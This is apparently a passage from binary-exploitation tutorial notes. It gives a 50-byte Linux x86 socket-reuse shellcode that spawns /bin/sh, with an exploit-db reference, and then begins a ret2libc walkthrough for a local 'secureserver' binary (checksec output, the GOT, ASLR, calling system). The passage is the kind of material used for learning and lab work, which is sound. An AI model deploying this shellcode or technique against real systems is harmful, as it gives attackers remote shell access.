The following shellcode works to re-use the socket.

* Socket Re-use Combo for linux x86 systems by ZadYree -- 50 bytes

```
buf=b""
buf+=b"\x6a\x02\x5b\x6a\x29\x58\xcd\x80\x48\x89\xc6"
buf+=b"\x31\xc9\x56\x5b\x6a\x3f\x58\xcd\x80\x41\x80"
buf+=b"\xf9\x03\x75\xf5\x6a\x0b\x58\x99\x52\x31\xf6"
buf+=b"\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
buf+=b"\x89\xe3\x31\xc9\xcd\x80";
```

* [https://www.exploit-db.com/exploits/34060](https://www.exploit-db.com/exploits/34060)

# Ret2Libc (Localy)

This technique is very useful to execute code when **NX is enabled**. Since we need to know the libc memory address and other gadgets we need to exploit it localy.

```
$ checksec secureserver
[*] '/tmp/secureserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
As allways we need to control the `EIP` in order to control the program flow.

Firstly its important to know that the binary need to be `dynamically linked`.

```
$ file secureserver
secureserver: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=ba7b32f02b9ce5948bcb57c33599de4ad17682de, for GNU/Linux 3.2.0, not stripped
```

Dynamically linked sets means that some functions like `gets` or `puts` will been called from `libc` rather than been hardcoded on the binary. That code is stored on the `libc` library on the system.

Whenever the program wants to access one of this functions will have a look to the **Global Offset Table (GOT)**.

Every libc library has different offsets, and sometimes ASLR is enabled so will need to leak the address or have local access to the system.

`libc` has more interesting functions such as `system` which a string like `/bin/sh` can be passed in order to create a shell.

## Check ASLR

To check ASLR you can check the following file on the target machine:
